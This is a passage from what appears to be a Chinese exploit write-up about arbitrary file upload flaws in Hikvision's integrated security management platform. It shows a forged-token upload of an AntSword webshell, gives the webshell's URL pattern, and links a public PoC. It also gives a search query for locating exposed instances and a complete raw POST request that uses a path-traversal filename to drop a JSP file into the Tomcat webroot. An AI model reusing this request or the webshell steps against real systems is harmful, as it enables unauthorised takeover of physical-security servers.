 构造完token后 可以发现该接口能够正常访问 响应值为200

![](https://gitee.com/fuli009/images/raw/master/public/20230715093431.png)

直接上传蚁剑生成的webshell  响应包200 显示上传附件成功且返回uuid值：

![](https://gitee.com/fuli009/images/raw/master/public/20230715093433.png)

webshell连接地址为:

http://url/eps/upload/uuid的值.jsp

![](https://gitee.com/fuli009/images/raw/master/public/20230715093434.png)

exp来自李师傅

github项目地址:

https://github.com/sccmdaveli/hikvision-poc

![](https://gitee.com/fuli009/images/raw/master/public/20230715093435.png)

  

综合安防管理平台前台任意文件上传

web.body="综合安防管理平台"

![](https://gitee.com/fuli009/images/raw/master/public/20230715093436.png)

利用难度：低

复现过程：

![](https://gitee.com/fuli009/images/raw/master/public/20230715093437.png)

# 方法1

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST xxxxxxxx HTTP/1.1Host: xxxxxxContent-Length: 249Cache-Control: max-age=0Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"Sec-Ch-Ua-Mobile: ?0Sec-Ch-Ua-Platform: "macOS"Upgrade-Insecure-Requests: 1User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36Origin: nullContent-Type: multipart/form-data; boundary=----WebKitFormBoundary9PggsiM755PLa54aAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9Sec-Fetch-Site: cross-siteSec-Fetch-Mode: navigateSec-Fetch-User: ?1Sec-Fetch-Dest: documentAccept-Encoding: gzip, deflateAccept-Language: zh-CN,zh;q=0.9,en;q=0.8Connection: close  
      
    ------WebKitFormBoundary9PggsiM755PLa54aContent-Disposition: form-data; name="file"; filename="../../../tomcat85linux64.1/webapps/els/static/abcd1111.jsp"Content-Type: application/zip  
    wiki kaisa  
    ------WebKitFormBoundary9PggsiM755PLa54a--
